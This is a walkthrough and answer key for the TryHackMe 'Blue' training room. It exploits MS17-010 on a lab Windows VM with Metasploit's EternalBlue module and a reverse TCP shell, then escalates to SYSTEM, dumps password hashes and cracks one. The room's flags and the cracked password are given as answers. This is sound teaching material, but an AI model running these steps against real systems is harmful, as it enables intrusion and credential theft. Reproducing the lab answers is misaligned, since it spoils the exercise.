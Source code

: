 # [Blue](https://tryhackme.com/room/blue)

![Blue](./images/Blue.png)

Deploy & hack into a Windows machine, leveraging common misconfigurations issues.

## Task 1 - Recon

Scan and learn what exploit this machine is vulnerable to. Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up. This room is not meant to be a boot2root CTF, rather, this is an educational series for complete beginners. Professionals will likely get very little out of this room beyond basic practice as the process here is meant to be beginner-focused. 

![task1-blue](./images/task1-blue.png)

Art by one of our members, Varg - [THM Profile](https://tryhackme.com/p/Varg) - [Instagram](https://www.instagram.com/varghalladesign/) - [Blue Merch](https://www.redbubble.com/shop/ap/53637482) - [Twitter](https://twitter.com/Vargnaar)

Link to Ice, the sequel to Blue: [Link](https://tryhackme.com/room/ice)

You can check out the third box in this series, Blaster, here: [Link](https://tryhackme.com/room/blaster)

-----------------------------------------


The virtual machine used in this room (Blue) can be downloaded for offline usage from https://darkstar7471.com/resources.html


Enjoy the room! For future rooms and write-ups, follow [@darkstar7471](https://twitter.com/darkstar7471) on Twitter.

### Answer the questions

* Scan the machine. (If you are unsure how to tackle this, I recommend checking out the [Nmap](https://tryhackme.com/room/furthernmap) room)

	![task1-nmap](./images/task1-nmap.png)

* How many ports are open with a port number under 1000?

	`3`

* What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

	`ms17-010`

## Task 2 - Gain Access

Exploit the machine and gain a foothold.

### Answer the questions

* Start [Metasploit](https://tryhackme.com/module/metasploit)

	![task2-msfconsole](./images/task2-msfconsole.png)

* Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

	`exploit/windows/smb/ms17_010_eternalblue`

	![task2-ms17](./images/task2-ms17.png)

* Show options and set the one required value. What is the name of this value? (All caps for submission)

	`RHOSTS`

	![task2-options](./images/task2-options.png)

Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:

`set payload windows/x64/shell/reverse_tcp`

* With that done, run the exploit!

	![task2-exploit](./images/task2-exploit.png)

* Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target. 

	![task2-background](./images/task2-background.png)

## Task 3 - Escalate

Escalate privileges, learn how to upgrade shells in metasploit.

### Answer the questions

* If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 

	`post/multi/manage/shell_to_meterpreter`

	![task3-meterpreter](./images/task3-meterpreter.png)

* Select this (use MODULE_PATH). Show options, what option are we required to change?

	`SESSION`

	![task3-options](./images/task3-options.png)

* Set the required option, you may need to list all of the sessions to find your target here. 

	![task3-setup](./images/task3-setup.png)

* Run! If this doesn't work, try completing the exploit from the previous task once more.

	![task3-upgraqde](./images/task3-upgraqde.png)

* Once the meterpreter shell conversion completes, select that session for use.

	![task3-interact](./images/task3-interact.png)

* Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again. 

	![task3-whoami](./images/task3-whoami.png)

* List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).

	![task3-ps](./images/task3-ps.png)

* Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time. 

	![task3-migrate](./images/task3-migrate.png)

## Task 4 - Cracking

Dump the non-default user's password and crack it!

### Answer the questions

* Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 

	`Jon`

	![task4-hashdump](./images/task4-hashdump.png)

* Copy this password hash to a file and research how to crack it. What is the cracked password?

	`alqfna22`

	![task5-john](./images/task5-john.png)

## Task 5 - Find flags!

Find the three flags planted on this machine. These are not traditional flags, rather, they're meant to represent key locations within the Windows system. Use the hints provided below to complete this room!

Completed Blue? Check out Ice: [Link](https://tryhackme.com/room/ice)

You can check out the third box in this series, Blaster, here: [Link](https://tryhackme.com/room/blaster)

### Answer the questions

* Flag1? This flag can be found at the system root. 

	`flag{access_the_machine}`

	![task6-flag1](./images/task6-flag1.png)

* Flag2? This flag can be found at the location where passwords are stored within Windows.
	
	Errata: Windows really doesn't like the location of this flag and can occasionally delete it. It may be necessary in some cases to terminate/restart the machine and rerun the exploit to find this flag. This relatively rare, however, it can happen. 

	`flag{sam_database_elevated_access}`

	![task6-flag2](./images/task6-flag2.png)

* Flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. 

	`flag{admin_documents_can_be_valuable}`
	
	![task6-flag3](./images/task6-flag3.png)

